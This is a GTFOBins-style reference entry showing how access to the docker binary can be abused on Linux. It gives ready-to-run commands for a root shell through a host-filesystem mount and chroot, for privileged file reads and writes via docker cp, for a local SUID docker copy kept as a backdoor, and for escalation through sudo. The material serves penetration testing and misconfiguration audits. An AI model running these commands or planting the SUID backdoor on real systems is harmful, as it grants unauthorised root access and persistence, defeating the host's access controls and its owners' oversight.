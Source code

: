 # GTFOBin: docker

This requires the user to be privileged enough to run docker, i.e. being in the `docker` group or being `root`.

Any other Docker Linux image should work, e.g., `debian`.

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

The resulting is a root shell.

```
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

## File write

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

Write a file by copying it to a temporary container and back to the target destination on the host.

```
CONTAINER_ID="$(docker run -d alpine)" # or existing
TF=$(mktemp)
echo "DATA" > $TF
docker cp $TF $CONTAINER_ID:$TF
docker cp $CONTAINER_ID:$TF file_to_write
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

Read a file by copying it to a temporary container and back to a new location on the host.

```
CONTAINER_ID="$(docker run -d alpine)"  # or existing
TF=$(mktemp)
docker cp file_to_read $CONTAINER_ID:$TF
docker cp $CONTAINER_ID:$TF $TF
cat $TF
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

The resulting is a root shell.

```
sudo install -m =xs $(which docker) .

./docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

The resulting is a root shell.

```
sudo docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```